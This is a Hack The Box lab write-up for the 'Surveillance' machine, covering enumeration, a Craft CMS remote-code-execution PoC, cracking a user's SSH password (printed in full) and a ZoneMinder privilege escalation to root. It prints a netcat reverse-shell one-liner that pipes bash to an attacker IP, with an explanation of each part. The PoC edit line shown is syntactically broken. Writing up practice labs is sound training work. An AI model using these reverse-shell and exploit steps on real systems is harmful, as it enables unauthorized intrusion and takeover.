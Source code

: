 # Surveillance


<p align="center">
  <img src="https://github.com/MrGovindDubey/HTB-Machines/assets/118271775/6acae25e-f039-4ff6-b160-876222d82942" align="center" alt="keeper-htb" />
</p>



## Introduction :

The Surveillance machine on Hack The Box presented a challenging learning opportunity. The journey involved Nmap scanning, web enumeration, and directory busting to discover an admin login on Craft CMS. Leveraging a Remote Code Execution (RCE) exploit, initial access was gained, leading to the discovery of a user named Matthew. After cracking Matthew's password, SSH access was achieved.

The privilege escalation involved MySQL credentials, "zoneminder" configurations, and a version-specific exploit using Metasploit. Despite challenges, a method to escalate privileges to root was found by manipulating the "user" parameter in zmupdate.pl. The write-up underscores the importance of thorough reconnaissance, exploit analysis, and creative problem-solving in successfully navigating the complexities of the Surveillance machine on HTB.


## Ennumiration :

We start with simple port & services scan and got two standard ports. When we access the web page, it has a specific CMS.

```bash
nmap -p- -T4 -A -sV 10.10.11.245
```

Because HTTP is an open protocol, we can verify whether a webpage can be seen in a web browser.

```bash
sudo echo "10.10.11.245 surveillance" >> /etc/hosts
```
The website appears to be experiencing difficulty locating the site. In such instances, you can resolve the issue by adding the IP and DNS name to the /etc/hosts file.

## Enumerating Directories

Now that we have access to the webpage, let's engage in directory enumeration. In this scenario, we will employ GoBuster.
```bash
gobuster dir -u http://surveillance.htb/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.4-medium.txt -x .php,.html,.txt,.zip
```

I’ve obtained access to an admin login, and it’s running on Craft CMS.

I examined the source code of surveillance.htb/index.php and determined the version it is running.

Upon researching the version online, I discovered a proof of concept for Remote Code Execution (RCE).

## Exploit :

This Gist provides a Proof-of-Concept (POC) for CVE-2023-41892, a Craft CMS vulnerability that allows Remote Code Execution (RCE).


CVE-2023-41892 is a security vulnerability discovered in Craft CMS, a popular content management system. Craft CMS versions affected by this vulnerability allow attackers to execute arbitrary code remotely, potentially compromising the security and integrity of the application.

POC GIST-  https://gist.githubusercontent.com/to016/b796ca3275fa11b5ab9594b1522f7226/raw/4742df53be0584c68d6f7550224948fc6709fea9/CVE-2023-41892-POC.md

You need to edit this part of the script for it to work.

```bash 
response = requests.post(url,  headers=headers, data=data, proxies={"http" : http://127.0.0.1:8080"}} 
```

It should get you a shell.

```bash 
python3 POC.py http://surveillance.htb/
```

After successfully exploit and gaining initial access using the PoC, the subsequent step involves obtaining a secure and robust shell for executing bash commands.

I found the following one-liner:

```bash

rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.11.246 4444 >/tmp/f

```

— THE IP AND PORT CAN BE CUSTOMIZED ACCORDING TO USER PREFERENCES.

To elaborate:

The rm command eliminates any pre-existing file at /tmp/f.
The mkfifo command generates a named pipe at /tmp/f.
The cat | /bin/bash pipeline forms an interactive Bash shell linked to the named pipe.
The nc command initiates a network connection, channeling the entire output, including the Bash shell output, back into the named pipe.

This should result in a fully operational shell.
```bash
nc -nvlp 4444
```

During my exploration, I stumbled upon a backup directory nestled within the storage repository.

Subsequently, I proceeded to relocate or duplicate the directory, transitioning it from the storage folder to the hosted web server.

Following this relocation, I initiated a wget command to extract and retrieve the contents of the file, thereby incorporating the backup data into the current environment.

I extracted the contents of the file and examined them to locate specific credentials. Within the extracted data, I identified a user named Matthew along with an encrypted password.

To discern the hashing algorithm employed for Matthew's password, I employed Hash-Identifier. The analysis suggests that the hash might have been generated using SHA-256.


### Password:
Subsequently, I appended the hashed password to a text file and employed hashcat to initiate the password cracking process.

The password cracking operation was successful, and the decrypted password has been obtained.


```bash

Username: Matthew
Password: starcraft122490

```

I attempted it on SSH, and it worked flawlessly



## Root Privilege Escalation : 

I ran LinPEAS from my Python server to investigate credentials.

I came across MySQL credentials that appear to correspond to the database stored in the storage/backups directory.

Subsequently, I uncovered a password associated with something referred to as "zoneminder."




Upon examining the configurations linked to "zoneminder," a deeper dive into research unveiled that Zoneminder is a software primarily designed for monitoring purposes. Given its local storage, the next step involves establishing a port forward using SSH.



Once logged in, the initial checkpoint is to verify if the content can be displayed locally, a process that should yield results akin to a specific display format.


Encountering a roadblock with the default credentials "admin:admin" failing to grant access to the login page, the focus shifts towards identifying the version number. It is discerned as version 1.36.32, serving as a crucial reference point in the pursuit of potential exploits.



An available Proof of Concept (PoC) exploit for Zoneminder is explored, yet attempts to establish a connection after sending the payload prove futile.



Metasploit presents an exploit pertaining to snapshots in Zoneminder. Curiously, while the Metasploit script successfully executes, the accompanying Proof of Concept (PoC) falls short, introducing an unusual complication.



To explore potential avenues for privilege escalation, the `sudo -l` command is invoked. Subsequently, a stable shell is spawned using Python to navigate the system.



After scouring online resources, a method for escalating privileges to root is uncovered. This involves manipulating the "user" parameter within `zmupdate.pl` to input a file directory instead of a user, integrating the previously discovered password. This modified configuration is employed to execute a reverse shell script, subsequently transferred via the Python server using `wget`.



Essential to the execution of the script is the incorporation of Busybox to access the `netcat` command. Placement of the required components is flexible, but adherence to good practice recommends housing them in the `tmp` folder.



Preparation of the attacker to listen on specified ports is undertaken diligently.



Finally, the meticulously configured script is executed, paving the way for further exploration and potential actions within the system.



<h>
</h>

## Conclusion, 

The Surveillance machine on Hack The Box provided a valuable learning experience in penetration testing. The journey involved thorough enumeration, exploitation of Craft CMS vulnerabilities, and overcoming unexpected challenges in privilege escalation. The  highlights the importance of continuous learning, adaptability, and creative problem-solving in cybersecurity. Overall, the experience served as a practical lesson in real-world scenarios, refining essential skills for effective ethical hacking practices.


